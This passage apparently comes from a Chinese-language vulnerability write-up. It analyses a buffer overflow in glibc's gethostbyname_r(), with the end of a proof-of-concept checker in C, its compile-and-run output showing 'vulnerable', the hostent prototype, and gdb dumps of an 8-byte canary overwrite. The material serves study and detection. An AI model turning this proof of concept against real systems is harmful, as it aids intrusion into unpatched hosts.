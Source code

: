 ```c
    puts("not vulnerable");
    exit(EXIT_SUCCESS);
  }
  puts("should not happen");
  exit(EXIT_FAILURE);
}
```
```
$ file /lib/x86_64-linux-gnu/libc-2.15.so 
/lib/x86_64-linux-gnu/libc-2.15.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), BuildID[sha1]=0x7c4f51534761d69afd01ac03d3c9bc7ccd21f6c6, for GNU/Linux 2.6.24, stripped
$ gcc -g poc.c
$ ./a.out
vulnerable
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+\*host\_addr+\*h\_addr\_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

函数 `gethostbyname_r()` 在 `include/netdb.h` 中定义如下：
```c
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```
- `name`：网页的 host 名称
- `ret`：成功时用于存储结果
- `buf`：临时缓冲区，存储过程中的各种信息
- `buflen`：缓冲区大小
- `result`：成功时指向 ret
- `h_errnop`：存储错误码

执行前：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000726566667562	0x0000000000000000  <-- buffer  <-- host_addr
0x601070 <temp+16>:	0x0000000000000000	0x0000000000000000              <-- h_addr_ptrs
0x601080 <temp+32>:	0x0000000000000000	0x0000000000000000              <-- hostname
gdb-peda$ x/20gx temp.canary-0x10
0x601450 <temp+1008>:	0x0000000000000000	0x0000000000000000
0x601460 <temp+1024>:	0x635f6568745f6e69	0x656e696d5f6c616f  <-- canary
0x601470 <temp+1040>:	0x0000000000000000	0x0000000000000000
```
执行后：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000000000000000	0x0000000000000000  <-- buffer  <-- host_addr
0x601070 <temp+16>:	0x0000000000601060	0x0000000000000000              <-- h_addr_ptrs
0x601080 <temp+32>:	0x0000000000000000	0x3030303030303030              <-- h_alias_ptr, hostname
gdb-peda$ x/6gx temp.canary-0x10
0x601450 <temp+1008>:	0x3030303030303030	0x3030303030303030
0x601460 <temp+1024>:	0x0030303030303030	0x656e696d5f6c616f  <-- canary
0x601470 <temp+1040>:	0x0000000000000000	0x0000000000000000
```
canary 被覆盖了 8 个字节，即溢出了 8 个字节。
